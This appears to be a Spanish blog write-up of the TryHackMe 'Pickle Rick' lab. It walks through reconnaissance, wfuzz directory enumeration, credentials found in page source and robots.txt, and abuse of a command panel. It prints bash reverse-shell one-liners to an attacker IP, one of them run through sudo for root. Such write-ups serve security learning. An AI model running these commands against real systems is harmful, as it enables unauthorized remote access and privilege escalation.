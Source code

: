 ```yaml
---
title : Máquina|<font color="#5d9b9b">Pickle Rick</font>
published : True
---
```


<p>Nombre : Pickle Rick</p>
> Url : <a href="https://tryhackme.com/room/picklerick"> Pickle Rick </a>
<p></p>

<h2><font color="white"><center># pickleRick</center></font></h2>
<p>Empezaremos viendo a que sistema operativo nos enfrentamos.</p>
<img src="/imgs/pickleRick/pickleRick1.jpg"/>
<p> Vemos que el ttl es de 63 lo cual hace referencia a una maquina Linux, ahora veremos que puertos están abiertos.</p>
<img src="/imgs/pickleRick/pickleRick2.jpg"/>
<p>Puerto 22/ssh y 80/http , ya intente conectarme por ssh pero me arroja permiso denyed, mirando el código del html de el puerto 80, me topo que en el código hay un usuario : <font color="yellow">R1ckRul3s</font></p>
<img src="/imgs/pickleRick/pickleRick3.jpg"/>
<p>Ahora lo que haré sera enumerar directorios activos en la pagina web, con la herramienta <font color="gold">wfuzz</font></p>
> wfuzz -t 200 --hc=404 -c -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt http://10.10.181.144/FUZZ

<p></p>
<img src="/imgs/pickleRick/pickleRick4.jpg"/>
<p>Vemos que directamente hay un robots.txt el cual al verlo en la pagnia web parece un tipo de contra.</p>
<img src="/imgs/pickleRick/pickleRick5.jpg"/>
<p>Posterior mente me doy cuenta que existe un login.php</p>
<img src="/imgs/pickleRick/pickleRick6.jpg"/>
<p>El cual con el usuario anterior encontrado y la contra me lleva a un panel con ejecución remota de comandos</p>
>/bin/bash -c  "bash -i >& /dev/tcp/10.18.27.215/444 0>&1"

<p></p>
<img src="/imgs/pickleRick/pickleRick7.jpg"/>
<p>Lo cual me aprovecho de la ejecución remota de comando para hacerme una web Shell </p>
<img src="/imgs/pickleRick/pickleRick8.jpg"/>
<p>Posteriormente me doy cuenta que el usuario www-data puede ejecutar cualquier comando</p>
> sudo -l

<p></p>
<img src="/imgs/pickleRick/pickleRick9.jpg"/>
<p>Entonces me hago una reverse Shell con el sudo</p>
> sudo /bin/bash -c "bash -i >& /dev/tcp/10.18.27.215/445 0>&1"

<p></p>
<img src="/imgs/pickleRick/pickleRick10.jpg"/>
<p>Ok maquina <font color="red">Vulnerada</font></p>
